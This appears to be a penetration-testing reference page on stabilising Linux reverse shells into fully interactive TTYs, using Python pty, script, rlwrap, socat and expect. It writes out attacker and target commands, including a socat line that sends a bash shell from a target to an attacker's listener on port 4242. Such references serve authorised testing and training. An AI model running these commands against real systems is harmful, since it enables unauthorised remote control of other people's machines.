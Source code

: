 # Linux

## 01 - Spawn TTY Shell

### 1.1.1 - Python

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z

user@pentestos:~$ echo $TERM && tput lines && tput cols
```

- In attacker machine for `/bin/bash`

```
user@pentestos:~$ stty raw -echo
user@pentestos:~$ fg
```

- In attacker machine for `/bin/zsh`

`user@pentestos:~$ stty raw -echo; fg`

```
$ reset
$ export SHELL=/bin/bash
```

- Display the terminal colors (You can skip this step if the shell is stabilized)

```
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### 1.1.2 - Script

- This is a universal method for GNU/Linux and Unix-like operating systems

```
$ script -qc /bin/bash /dev/null
CTRL+Z

user@pentestos:~$ echo $TERM && tput lines && tput cols
```

- In attacker machine for `/bin/bash`

```
user@pentestos:~$ stty raw -echo
user@pentestos:~$ fg
```

- In attacker machine for `/bin/zsh`

```
user@pentestos:~$ stty raw -echo; fg

$ reset
$ export SHELL=/bin/bash
```

- Display the terminal colors (You can skip this step if the shell is stablized)

```
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### 1.1.3 - Rlwrap

- Using the GNU readline wrapper with arrow keys. You can use this when using a normal reverse shell for penetrating Windows machine

`user@pentestos:~$ rlwrap nc 192.168.0.115 80`

`user@pentestos:~$ rlwrap -r -f . nc 192.168.0.115 4242`

- `-f .` will make rlwrap use the current history file as a completion word list.

- `-r` Put all words seen on input and output on the completion list.

### 1.1.4 - Socat

- Using `socat` to spawn a shell with interactive TTY

- **Attacker**

```
user@pentestos:~$ socat file:`tty`,raw,echo=0 tcp-listen:4242
```

- **Target**

`$ socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:4242`

### 1.1.5 - Expect

Using `expect` to get a TTY

```bash
#!/usr/bin/expect
# Spawn a shell, then allow the user to interact with it.
# The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact
```

- **Output**

```
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48257
sh: no job control in this shell
sh-3.2$ su -
su: must be run from a terminal
sh-3.2$ expect sh.exp
spawn sh
sh-3.2$ su -
Password:  mypassword
localhost ~ #
```

---
## References

- [Hacktricks: Shells Full TTYs](https://book.hacktricks.xyz/shells/shells/full-ttys)

- [ROPNOP: Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

- [Pentest Monkey: Post Exploitation Without a TTY](https://pentestmonkey.net/blog/post-exploitation-without-a-tty)

- [Enlace Hacktivista: Stabilizing reverse shells](https://enlacehacktivista.org/index.php?title=Stabilizing_reverse_shells)
